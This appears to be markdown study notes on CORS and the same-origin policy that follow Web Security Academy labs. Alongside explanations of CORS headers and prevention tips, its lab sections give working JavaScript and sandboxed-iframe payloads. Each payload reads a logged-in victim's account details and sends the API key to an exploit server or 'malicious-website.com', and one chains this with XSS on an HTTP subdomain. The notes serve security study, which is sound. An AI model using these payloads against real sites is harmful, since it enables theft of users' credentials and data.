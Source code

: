 
- CORS relaxes the **same-origin policy (SOP)**. Misconfigured CORS policies lead to information leaks, authentication bypass and account takeover.

#### Same-Origin Policy

- The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain.
- It generally allows a domain to issue requests to other domains, but not to access the responses.
- Cross-origin loading of page resources is generally permitted. For example, the SOP allows embedding of images via the `<img>` tag, media via the `<video>` tag and JavaScript via the `<script>` tag. However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.
- Cookies are often accessible from all subdomains of a site even though each subdomain is technically a different origin. You can partially mitigate this risk using the `HttpOnly` cookie flag.

![[Schermata del 2024-11-19 14-57-24.png]]

- A script from page A can access data from page B only if the pages are on the same origin.
- SOP protects cookies (like session cookies).

## How does CORS work?

- The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted.
- The `Access-Control-Allow-Origin` header is included in the response from one website to a request originating from another website and identifies the permitted origin of the request. A web browser compares the Access-Control-Allow-Origin with the requesting website's origin and permits access to the response if they match.
- Usually when we send a request from a website `normal-website.com` to another domain `robust-website.com` the browser puts in the request the following header to make the server know what's the *origin* of the request:

```http
Origin: https://b.example.com
```

The request would be like this:

```http
GET /data HTTP/1.1
Host: robust-website.com 
Origin: https://normal-website.com
```

If `robust-website.com` uses SOP, then its response is dropped when arrives at the web browser.
If instead it uses CORS, the server on `robust-website.com` returns the following response:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
```

The browser will allow code running on `normal-website.com` to access the response because the origins match.

The specification of `Access-Control-Allow-Origin` allows for multiple origins, or the value `null`, or the wildcard `*`.

- The default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header. However, the cross-domain server can permit reading of the response when credentials are passed to it by setting the CORS `Access-Control-Allow-Credentials` header to true.

###### Request
```http
GET /data HTTP/1.1 
Host: robust-website.com 
... 
Origin: https://normal-website.com 
Cookie: JSESSIONID=<value>
```
###### Response
```http
HTTP/1.1 200 OK 
... 
Access-Control-Allow-Origin: https://normal-website.com 
Access-Control-Allow-Credentials: true
```


## Vulnerabilities and common mistakes


###### Lab: CORS vulnerability with basic origin reflection 
```html
<script>  
fetch('https://0afa00b803fd481c83315b74001800f2.web-security-academy.net/accountDetails', {credentials:'include'})  
.then(r => r.json())  
.then(j => j.apikey)  
.then(key => new Image().src = 'https://exploit-0a8400fa03dc48d983915a59015a001f.exploit-server.net/landing?key=' + key)  
</script>
```

or: 
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; 
req.send();

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
</script>
```

#### Whitelisted null origin value

The Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

##### Lab: CORS vulnerability with trusted null origin
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); 
function reqListener() { 
location='malicious-website.com/log?key='+this.responseText; 
}; 
</script>"></iframe>
```

or:
```html
<iframe sandbox='allow-scripts' srcdoc="  
<script>  
fetch('https://0a410099045171e580469e84007f0045.web-security-academy.net/accountDetails', {credentials:'include'})  
.then(r => r.json())  
.then(j => j.apikey)  
.then(key => new Image().src = 'https://exploit-0a6f009f04b871d680409dd001e90071.exploit-server.net/landing?key=' + key)  
</script>  
"></iframe>
```

#### Exploiting XSS via CORS trust relationships

If a website trusts an origin that is vulnerable to cross-site scripting ([[XSS (Cross-Site Scripting)]]), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

#### Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP.
In this situation, an attacker who is in a position to intercept a victim user's traffic (*man-in-the-middle attack*) can exploit the CORS configuration to compromise the victim's interaction with the application.

```html
<script>  
location = 'http://stock.0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/?storeId=1&productId=<script>' +  
`fetch('https://0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/accountDetails', {credentials:'include'}).then(r => r.json()).then(j => j.apikey).then(key => new Image().src = 'https://exploit-0abc00170467a065818e42b2012e0081.exploit-server.net/landing?key=' %2B key)` +  // don't forget to URLEncode the + (otherwise, it is a space)  
'<' + '/script>'  // or encode the < as %3C  
</script>
```

Here, we've found a HTTP subdomain `http://stock.0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/?storeId=1&productId=1` where `productId` suffers of XSS and the main domain `https://0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/` CORS configuration accepts requests from the vulnerable stock subdomain. Hence, we can inject code (XSS) that forces the victim to make a request from the stock subdomain to the main domain, making the victim unconsciously sending us the apiKey.

## Prevention

- Specify the Access-Control-Allow-Origin header if the response contains sensitive data
- Think if you really need `Access-Control-Allow-Origin: *`
- Double think if you really need `Access-Control-Allow-Credentials: true`
- Use allow lists
- Don’t allow the origin null